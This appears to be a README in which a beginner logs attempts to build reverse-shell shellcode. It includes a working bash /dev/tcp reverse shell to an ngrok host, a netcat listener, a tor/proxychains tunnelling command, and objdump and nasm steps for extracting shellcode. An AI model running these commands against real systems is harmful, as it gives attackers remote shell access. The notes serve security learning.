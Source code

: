 # shell-noob

I'm a shell noob, so nothing exciting here.

I'm also new to asm and C, but hey, I'm sure I've done tricker stuff before (famous last words).




## Starting

So I started reading a neat little writeup on how to reverse shell bind from shellcode, how to extract the shellcode and create a runnner.

I'm new to this so it seemed to cover most of the basic concepts to get started, so I jumped in.

https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat




## The problem

The article shows a popular reverse bind with netcat, but I have the BSD variant installed on my rig - which has the `-e` flag removed for obvious security reasons.

But that's fine, more than this being a copy/paste exercise, I decided to see if I could reverse engineer my findings and apply an alternative shellcode.




## The alternative

I use ngrok to reverse proxy my ports to the outside world.
```
tor service start
proxychains ngrok tcp 31337
```

Create an open port to receive the reverse shell.
```
nc -n -vv -l -p 31337
```

Now kick off the reverse shell.
```
/bin/bash -c "/bin/bash -i >& /dev/tcp/0.tcp.ngrok.io/12345 0>&1"
```

Everything works fine... let's continue.




## Is injecting bash as a string possible in C?

After some initial googling I found it may not be possible to bind to /dev/tcp/x [1], as this is being done with some "magic bash"...

I might be able to fix this [3] by using execvp instead, just a wrapper for exec.

And it worked - reverse shell!




### Getting to assembly from C

Now I need to convert this to asm, so as per [2] I used `strace`;

```
strace -e execve ./bin/shellcode                      
execve("./bin/shellcode", ["./bin/shellcode"], [/* 120 vars */]) = 0
execve("/bin/bash", ["/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/0.tcp.e"...], [/* 120 vars */]) = 0
/bin/bash: connect: Connection refused
/bin/bash: /dev/tcp/0.tcp.ngrok.io/12345: Connection refused
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=19295, si_uid=1000, si_status=1, si_utime=0, si_stime=0} ---
```
I can't see this working for me just yet...


Looking back at the original tutorial and code [4], I'm thinking I could do the same with my custom line, and just call execve.

Now I attempt to compile with the nasm utility;

```
nasm -felf32 -o ./bin/shell-code.o ./shell-code.asm
```
Unfortunately this didn't run, there must be errors...

I'm using zsh so the original example threw me out a little, I made a quick fix...
```
for i in $(objdump -d ./bin/shell-code.o -M intel |grep "^ " |cut -f2); do echo -n '\\x'$i; done; echo
```

Followed a SO, so going to try this... 
```
gcc -S input.c -o output.asm -masm=intel
```
Nope, did not work for me - [5] there are fundamental differences between NASM and TASM.





[1] https://stackoverflow.com/questions/44914538/execute-reverse-shell-using-execve

[2] http://www.arti-sec.com/article/create-shellcode-tcp-reverse-shell-slae

[3] https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp

[4] https://gist.githubusercontent.com/Morgawr/9852347/raw/37fafdbfab6684d4fb374c826a2c1bc628cbe2b0/netcat-shellcode.asm

[5] https://stackoverflow.com/questions/8406188/does-gcc-really-know-how-to-output-nasm-assembly




## Other

Some notes on building, 

### Building

```
gcc ./shell-code.c -o ./bin/shellcode
```

### The runner

It seems that many shellcode tutorials use a common program template or husk to run the shellcode / bytearray.

I've included this in `templates/`.



## Resources

Some good resources for beginning this.

The original post that got me thinking;
https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat

### Introductions to shellcoding
http://hackerforhire.com.au/part-1-disassembling-and-understanding-shellcode/
https://en.wikipedia.org/wiki/Shellcode
http://www.enderunix.org/docs/en/sc-en.txt
http://www.vividmachines.com/shellcode/shellcode.html
https://pentesterslife.blog/2017/11/01/x86_64-tcp-bind-shellcode-with-basic-authentication-on-linux-systems/

### Dealing with bash -c
https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp

### Reversing shellcode to assembly
https://xorl.wordpress.com/2009/01/04/from-shellcode-to-assembly/
https://zeltser.com/convert-shellcode-to-assembly/
https://haiderm.com/convert-hex-assembly-using-simple-python-script/

### Tools
https://github.com/reyammer/shellnoob

